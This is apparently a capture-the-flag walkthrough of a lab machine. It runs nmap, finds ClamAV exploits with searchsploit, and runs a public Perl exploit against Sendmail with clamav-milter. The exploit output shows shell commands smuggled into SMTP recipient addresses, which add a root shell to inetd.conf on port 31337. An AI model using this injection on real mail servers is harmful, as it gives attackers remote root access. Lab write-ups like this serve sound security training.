 # ClamAV

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.175.42
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 21:01 +08
Warning: 192.168.175.42 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.175.42
Host is up (0.17s latency).
Not shown: 65448 closed tcp ports (conn-refused), 80 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
139/tcp   open  netbios-ssn
199/tcp   open  smux
445/tcp   open  microsoft-ds
60000/tcp open  unknown
```

### ClamAV Root

This machine was obviously hinting towards abusing ClamAV, the Antivirus. The SMTP port was open, and we can search for exploits using `searchsploit`:

```
$ searchsploit clamav    
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Clam Anti-Virus ClamAV 0.88.x - UPX Compressed PE File Hea | linux/dos/28348.txt
ClamAV / UnRAR - .RAR Handling Remote Null Pointer Derefer | linux/remote/30291.txt
ClamAV 0.91.2 - libclamav MEW PE Buffer Overflow           | linux/remote/4862.py
ClamAV < 0.102.0 - 'bytecode_vm' Code Execution            | linux/local/47687.py
ClamAV < 0.94.2 - JPEG Parsing Recursive Stack Overflow (P | multiple/dos/7330.c
ClamAV Daemon 0.65 - UUEncoded Message Denial of Service   | linux/dos/23667.txt
ClamAV Milter - Blackhole-Mode Remote Code Execution (Meta | linux/remote/16924.rb
ClamAV Milter 0.92.2 - Blackhole-Mode (Sendmail) Code Exec | multiple/remote/9913.rb
Sendmail with clamav-milter < 0.91.2 - Remote Command Exec | multiple/remote/4761.pl
----------------------------------------------------------- ---------------------------------
```

The last exploit looked interesting because it had 'Sendmail' in it. We can try it out:

```
$ perl 4761.pl 192.168.175.42
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.175.42...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Sat, 1 Jul 2023 13:02:43 -0400; (No UCE/UBE) logging access from: [192.168.45.164](FAIL)-[192.168.45.164]
250-localhost.localdomain Hello [192.168.45.164], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 361H2hEV004002 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```

This exploit would spawn a `root` shell on port 31337 which we can connect to:

<figure><img src="../../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

Rooted!
